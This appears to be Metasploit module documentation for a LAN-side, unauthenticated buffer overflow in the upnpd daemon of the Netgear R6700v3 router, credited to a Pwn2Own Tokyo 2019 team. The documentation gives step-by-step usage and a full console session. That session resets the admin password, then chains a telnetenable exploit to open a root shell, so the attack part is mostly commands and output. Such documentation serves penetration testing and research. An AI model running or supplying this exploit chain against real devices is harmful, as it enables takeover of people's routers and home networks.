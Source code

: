 ## Description

This module exploits a buffer overflow vulnerability in the upnpd daemon (/usr/sbin/upnpd), running on the router Netgear R6700v3, ARM Architecture, firmware version V1.0.4.82_10.0.57 and V1.0.4.84_10.0.58.
The vulnerability can only be exploited by an attacker on the LAN side of the router, but the attacker does not need any authentication to abuse it. After exploitation, an attacker will be able to use a default admin password to login to web interface and use a 'telnetenable' module to gain root shell.

This vulnerability was discovered and exploited at Pwn2Own Tokyo 2019 by the team Flashback (Pedro Ribeiro + Radek Domanski).

## Vulnerable Application

* Netgear R6700v3 firmware version V1.0.4.82_10.0.57
* Netgear R6700v3 firmware version V1.0.4.84_10.0.58

[Netgear R6700v3 Firmware V1.0.4.82_10.0.57](http://www.downloads.netgear.com/files/GDC/R6700v3/R6700v3-V1.0.4.84_10.0.58.zip)



## Verification Steps
  Example steps in this format:

  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: ```use auxiliary/admin/http/netgear_r6700_pass_reset```
  4. Set RHOST
  5. Do ```check```
  6. Do: ```run```
  7. Admin password has been reset to default `password`

## Options
```
Module options (auxiliary/admin/http/netgear_r6700_pass_reset):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    5000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host
```

## Scenarios
~~~
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > check 

[*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.84_10.0.58) as the target.
[+] 192.168.1.1:5000 - The target is vulnerable.

msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > run
[*] Running module against 192.168.1.1

[*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.84_10.0.58) as the target.
[+] 192.168.1.1:5000 - HTTP payload sent! 'admin' password has been reset to 'password'
[*] To achieve code execution, do the following steps manually:
[*] 1- Login to 192.168.1.1 with creds 'admin:password', then:
[*] 	1.1- go to Advanced -> Administration -> Set Password
[*] 	1.2- Change the password from 'password' to <WHATEVER>
[*] 2- Run metasploit as root, then:
[*] 	2.1- use exploit/linux/telnet/netgear_telnetenable
[*] 	2.2- set interface <INTERFACE_CONNECTED_TO_ROUTER>
[*] 	2.3- set rhost 192.168.1.1
[*] 	2.3- set username admin
[*] 	2.4- set password <WHATEVER>
[*] 	2.5- run it and login with 'admin:<WHATEVER>'
[*] 3- Enjoy your root shell!
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > use exploit/linux/telnet/netgear_telnetenable
msf5 exploit(linux/telnet/netgear_telnetenable) > ifconfig | grep enx
[*] exec: ifconfig | grep enx

enxd03745775fdd: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
msf5 exploit(linux/telnet/netgear_telnetenable) > set interface enxd03745775fdd
interface => enxd03745775fdd
msf5 exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf5 exploit(linux/telnet/netgear_telnetenable) > set username admin
username => admin
msf5 exploit(linux/telnet/netgear_telnetenable) > set password Flashback
password => Flashback
msf5 exploit(linux/telnet/netgear_telnetenable) > set timeout 1500
timeout => 1500
msf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[*] 192.168.1.1:23 - Attempting to discover MAC address via ARP
[+] 192.168.1.1:23 - Found MAC address
[+] 192.168.1.1:23 - Using creds admin:Flashback
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.1:23) at 2020-06-22 17:52:25 +0200

 login: admin
admin
Password: Flashback



BusyBox v1.7.2 (2019-10-19 12:12:12 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# id
id
uid=0(admin) gid=0(root)
# uname -a
uname -a
Linux R6700v3 2.6.36.4brcmarm+ #17 SMP PREEMPT Sat Oct 19 11:17:27 CST 2019 armv7l unknown

~~~
